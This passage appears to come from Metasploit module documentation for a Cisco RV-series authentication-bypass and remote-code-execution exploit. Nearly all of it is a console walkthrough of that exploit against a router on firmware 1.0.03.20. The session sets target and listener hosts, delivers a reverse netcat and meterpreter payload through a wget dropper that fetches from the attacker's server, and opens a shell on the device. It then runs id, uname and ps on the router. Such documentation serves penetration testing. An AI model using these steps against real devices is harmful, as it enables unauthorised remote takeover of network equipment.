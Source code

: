 ### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Cisco RV340 using firmware version 1.0.03.20. Reverse shell to meterpreter session.

```
msf6 > use exploits/linux/http/cisco_rv_series_authbypass_and_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set RHOST 10.0.0.8
RHOST => 10.0.0.8
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set LHOST 10.0.0.6
LHOST => 10.0.0.6
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set target 1
target => 1
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > run

[*] Started reverse TCP handler on 10.0.0.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/RIwkKfR
[*] Local IP: http://10.0.0.6:8080/RIwkKfR
[*] Client 10.0.0.8 (Wget) requested /RIwkKfR
[*] Sending payload to 10.0.0.8 (Wget)
[*] Sending stage (903400 bytes) to 10.0.0.8
[+] Exploit successfully executed.
[*] Meterpreter session 1 opened (10.0.0.6:4444 -> 10.0.0.8:34201 ) at 2022-01-29 18:48:24 -0800
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Server stopped.

meterpreter > shell
Process 2545 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux router0B874A 4.1.8 #2 SMP Thu Sep 17 09:26:06 IST 2020 armv7l GNU/Linux
ps faux
    1 root      2476 S    /sbin/procd
    2 root         0 SW   [kthreadd]
    3 root         0 SW   [ksoftirqd/0]
    5 root         0 SW<  [kworker/0:0H]
    6 root         0 SW   [kworker/u4:0]
    7 root         0 SW   [rcu_sched]
    8 root         0 SW   [rcu_bh]
    9 root         0 SW   [migration/0]
   10 root         0 SW   [migration/1]
   11 root         0 SW   [ksoftirqd/1]
   12 root         0 SW   [kworker/1:0]
   13 root         0 SW<  [kworker/1:0H]
   14 root         0 SW<  [khelper]
   15 root         0 SW<  [perf]
   16 root         0 SW   [kworker/u4:1]
  242 root         0 SW<  [writeback]
  243 root         0 SW<  [crypto]
  245 root         0 SW   [kworker/0:1]
  246 root         0 SW<  [bioset]
  247 root         0 SW<  [kblockd]
  301 root         0 SW   [kswapd0]
```